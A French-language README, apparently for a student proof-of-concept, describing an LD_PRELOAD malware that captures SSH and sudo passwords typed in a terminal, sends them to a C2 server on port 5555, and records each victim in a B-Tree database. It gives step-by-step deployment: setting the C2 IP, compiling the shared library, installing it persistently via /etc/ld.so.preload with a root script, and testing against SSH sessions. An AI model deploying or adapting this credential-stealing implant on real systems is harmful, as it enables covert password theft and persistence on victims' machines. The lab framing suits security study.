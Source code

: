 ## Auteur
- Angelov Onur et Slimani Anis — ESGI 3SIJ
# README - Malware LD_PRELOAD avec Serveur C2 et Base de Données en C (B-Tree)

Ce projet est un POC complet d’un malware basé sur `LD_PRELOAD`, capable d’intercepter les identifiants SSH d’un utilisateur, de les envoyer à un serveur distant C2, et de les stocker de manière persistante dans une base de données implémentée en C à l’aide d’un B-Tree.

Pour commencer : git clone https://github.com/Runo76/CC1-DATABASE-ESGI
---
```
## 📁 Structure du projet

CC1-DATABASE-ESGI/
├── server/                    # Serveur C2 (écoute, enregistre les victimes)
│   ├── server.c
│   ├── register_victim.c
│   ├── Makefile
│   └── ...
├── BTreeDB/                   # Base de données des victimes (B-Tree)
│   ├── author.md
│   ├── btree.c/.h/.o
│   ├── table.c/.h/.o
│   ├── repl.c/.h/.o
│   ├── persistence.c/.h/.o
│   ├── main.c/.o
│   ├── database.db           # Fichier de base de données persistante
│   ├── id_counter.txt        # Fichier de compteur ID auto-incrémenté
│   ├── db.txt, db/, tests/   # Données et tests
│   ├── Makefile, README.md
│   └── BTreeProject/
├── LD_PRELOAD/malware/       # Malware LD_PRELOAD (client espion)
│   ├── malware.c
│   ├── send_to_c2.c
│   ├── malware.so            # Généré après compilation
│   ├── Makefile
│   └── install_ldso_preload.sh  # Script pour activer automatiquement LD_PRELOAD
└── README.md
```

---

## 💻 VM 1 – Serveur C2 (192.168.1.20)

### 🛠️ Prérequis

- OpenSSH installé :

  sudo apt install openssh-server
🔧 Compilation du serveur + base

cd ~/server/CC1-DATABASE-ESGI/server
make clean
make
🚀 Lancer le serveur C2

./server
Le serveur écoute sur le port 5555
Il reçoit :

register <hostname> <password> → stocké dans la base BTree

log <hostname> <cmd> → affiché dans le terminal

💻 VM 2 – Malware (192.168.1.15)
🛠️ Prérequis
OpenSSH installé :

sudo apt install openssh-server
⚠️ Configuration du malware
Dans send_to_c2.c, modifier l’IP du serveur (ligne #define C2_IP "...") :


#define C2_IP "192.168.1.20"
#define C2_PORT 5555
Vous pouvez aussi modifier le port C2 si nécessaire.

🔧 Compilation

cd ~/mal/CC1-DATABASE-ESGI/LD_PRELOAD/malware
make
🐚 Injection automatique via LD_PRELOAD

chmod +x install_ldso_preload.sh
sudo ./install_ldso_preload.sh
Cela ajoute le chemin absolu de malware.so dans /etc/ld.so.preload


| Fonction                         | Description                                                                                                                                               |
| -------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 🔑 Exfiltration de mot de passe  | Intercepte les entrées `password:` dans un terminal                                                                                                       |
| 📦 Envoi vers serveur C2         | Format : `register <hostname> <mdp>`                                                                                                                      |
| 🚫 Blocage de fichiers sensibles: Empêche `open()` sur sudo /etc/passwd`, `/etc/shadow`, etc. Exemple : `sudo cat /etc/passwd` → Permission denied▪️ ` cat /etc/passwd` → aussi bloqué |

| 🧠 Injection automatique via SSH | Vous pouvez tester avec :<br>▪️ `LD_PRELOAD=./malware.so ssh name@192.168.1.xx`                                                                               |
| 💾 Persistance dans BTree        | Chaque victime est stockée dans `database.db` avec ID unique                                                                                              |
| 🔁 Injection persistante         | Automatique via `/etc/ld.so.preload`                                                                                   

🔍 Vérification de la base
Sur la VM C2 :

cd ../BTreeDB
./db
Dans la CLI :


select
Vous verrez (le register el le mdp de la connexion ssh):
ex
(1, anisdebian, 1478)
(2, onur, 1234)

🧪 Exemple de test
Lancer le serveur C2 sur VM1 :
./server


Sur la VM malware, compiler et injecter :


make
chmod +x install_ldso_preload.sh
sudo ./install_ldso_preload.sh
Se connecter à une machine distante via SSH (ou exécuter sudo ls)
exemple :
LD_PRELOAD=./malware.so ssh nom@192.168.1.xx (ip)


→ password: sera intercepté sur le serverc2
Vérifier la base côté serveur :

cd ../BTreeDB
./db
> select (pour parcourir l'arbre et voir ceux qui est insert)
autre commande expliqué dans la db


❌ Pour désactiver le malware

sudo rm /etc/ld.so.preload
📎 Remarques
Le fichier database.db est mis à jour automatiquement.
